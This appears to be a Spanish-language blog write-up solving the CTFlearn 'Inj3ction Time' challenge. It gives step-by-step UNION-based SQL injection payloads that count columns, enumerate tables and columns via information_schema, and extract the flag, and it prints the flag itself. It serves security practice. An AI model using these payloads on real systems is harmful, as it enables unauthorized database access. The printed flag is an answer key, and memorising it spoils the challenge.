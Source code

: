 ```yaml
---
title: CTFlearn - Inj3ction Time
layout: post
post-image: /assets/images/gatohacker2.jpeg 
description: La resolución del reto Inj3ction Time.
tags:
- ctflearn
- post
- writeups
---
```

# Descripción
---

I stumbled upon this website: http://web.ctflearn.com/web8 and I think they have the flag in their somewhere. UNION might be a helpful command.


# Solución
---

Vemos solo una página que nos pide un ID. Por el título y la descripción sabemos que debemos explotar un **SQLi UNION Attack**.

![](/images/images-ctflearn/injection-time-1.png)

Probamos escribiendo números para saber qué tipo de ID necesita.

![](/images/images-ctflearn/injection-time-2.png)

Si escribimos una letra la página no nos responde, entonces utilizaremos números.

Esto lo hacemos para tener en cuenta la comilla en nuestra inyección `'`. Como estamos trabajando con números no es necesario esta comilla al inicio de nuestra inyección.

![](/images/images-ctflearn/injection-time-3.png)

Primero enumeramos, agregaremos un **null** y después iremos agregando más hasta que la página nos responda correctamente.

```sql
1 union select null-- -
```

![](/images/images-ctflearn/injection-time-4.png)

Vemos que con dos **null** tampoco funciona, así que seguimos agregando.

```sql
1 union select null,null-- -
```

![](/images/images-ctflearn/injection-time-5.png)

Seguimos agregando hasta que llegamos a 4 y la página nos responde correctamente.

```sql
1 union select null,null,null,null-- -
```

![](/images/images-ctflearn/injection-time-6.png)

Ahora buscamos la tabla que contenga la flag, ejecutando una query que nos muestre todas las tablas de la base de datos.

```sql
1 union select table_name,null,null,null from information_schema.tables-- -
```

![](/images/images-ctflearn/injection-time-7.png)

Al final de la página veremos una tabla que destaca.

![](/images/images-ctflearn/injection-time-8.png)

Ahora falta obtener el nombre de la columna donde se encuentra la flag. Para obtener eso ejecutamos la siguiente query que nos devolverá todas las columnas de la base de datos.

```sql
1 UNION SELECT column_name,null,null,null FROM information_schema.columns -- -
```

![](/images/images-ctflearn/injection-time-9.png)

Si vamos al final de la página veremos una que destaca `f0und_m3`.

![](/images/images-ctflearn/injection-time-10.png)

Ya tenemos la tabla y la columna donde está la flag, con esto podemos ejecutar la siguiente query y obtendremos la flag.

```sql
1 UNION SELECT f0und_m3,null,null,null FROM w0w_y0u_f0und_m3 -- -
```

![](/images/images-ctflearn/injection-time-11.png)


# Flag
---

`abctf{uni0n_1s_4_gr34t_c0mm4nd}`

----

## [Anterior](/My-Blog)
## [Siguiente](/Gobustme)